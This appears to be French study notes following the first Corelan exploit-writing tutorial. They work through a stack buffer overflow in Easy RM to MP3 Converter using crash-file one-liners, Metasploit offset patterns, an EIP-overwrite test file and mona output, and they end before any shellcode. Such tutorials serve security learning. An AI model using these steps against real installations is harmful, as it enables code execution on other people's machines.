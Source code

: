 ```yaml
---
title: Corelan Exploit Course
permalink: /Corelan_Exploit_Course/
---
```


# Corelan Exploit Course

Partie 1: Stack Based Overflows
-------------------------------

Basé sur la première partie du cours de [Corelan](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/) sur le développement d'exploits.

On s'intéresse au logiciel **Easy RM to MP3 Converter** qui peut charger des fichiers. Si on charge un fichier trop grand on a un crash. Ce qui suit est un test avec Windows Seven Ultimate.

``` bash
python -c "print('A'*30000)" > crash.m3u
```

On utilise ensuite metasploit pour créer un pattern pour identifier l'offset (**Note**: pattern_create est limité en taille et des répétitions peuvent apparaître. Il est recommandé de se limiter à des patterns inférieurs à 1000 cararctères et de compléter avec des 'A'):

``` bash
python3 -c "print('A'*20000, end='')" > file.m3u
pattern_create.rb 10000 >> file.m3u
```

On trouve alors que la valeur d'EIP est *76483676*:

``` bash
pattern_offset.rb 76483676
[*] Exact match at offset 6109
```

On a donc un offset de 26109 caractères. On peut confirmer que tout fonctionne correctement avec ce bout de code:

``` bash
python -c "print('A'*26109+'BBBB'+'C'*(30000-26110))" > file.m3u
```

Par ailleurs qu'on a des C à partir de ESP. On peut donc injecter notre shellcode à l'intérieur. On utilise alors mona pour trouver un moyen de jumper sur ESP:

``` text
!mona modules
0BADF00D   !mona modules

           ---------- Mona command started on 2016-04-17 15:20:03 (v2.0, rev 566) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
0BADF00D   ----------------------------------------------------------------------------------------------------------------------------------
0BADF00D    0x6b2b0000 | 0x6b316000 | 0x00066000 | True   | True    | True  |  True    | True   | 7.0.7600.16385 [MSVCP60.dll] (C:\Windows\system32\MSVCP60.dll)
```